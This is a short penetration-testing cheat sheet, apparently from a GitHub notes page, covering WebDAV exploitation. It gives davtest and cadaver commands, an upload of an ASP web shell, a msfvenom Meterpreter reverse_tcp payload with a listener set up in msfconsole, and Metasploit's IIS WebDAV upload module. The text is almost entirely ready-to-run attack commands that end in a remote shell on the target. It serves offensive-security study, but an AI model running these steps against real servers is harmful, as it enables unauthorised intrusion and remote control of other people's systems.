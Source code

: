> Can be used to test if `webdav` is present or is accessible without authentication. If it isn't then it will show an error.

```Shell
davtest -auth <user-name>:<password> -url http://<ip-address>/webdav
```

> This will perform a check and will tell what type of files can be uploaded or executed over the server.

```
cadaver http://<ip-address>/webdav
```

> Cadaver can be used to upload files on the server and when you will type this command you will be than asked for a username and a password. After the correct creds. you will get the access to a pseudo shell through which you will be able to interact with the server. 

```Shell
put /usr/share/webshells/asp/webshell.asp
```

> This command can be used in the pseudo shell to upload the web shell on to the server.

```Shell
/usr/share/webshells
```

> This directory has different web shells with in Kali Linux.

```Shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<local_ip> LPORT=1234 -f asp > <output-file-name>.asp
```

> `msfvenom` command to generate a `.asp` shell code.

```msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
show options
set LHOTS <local_ip>
set LPORT 1234
exploit
```

> Msfconsole listener setup.

```msfconsole
use exploit/windows/iis/iis_webdav_upload_asp
show options
set HttpUsername <username>
set HttpPassword <password>
set RHOST <ip-address>
set PATH /webdav/metasploit.asp
exploit
```

> This can be used to automate the whole process of uploading and exploitation.

#### SMB Exploitation:
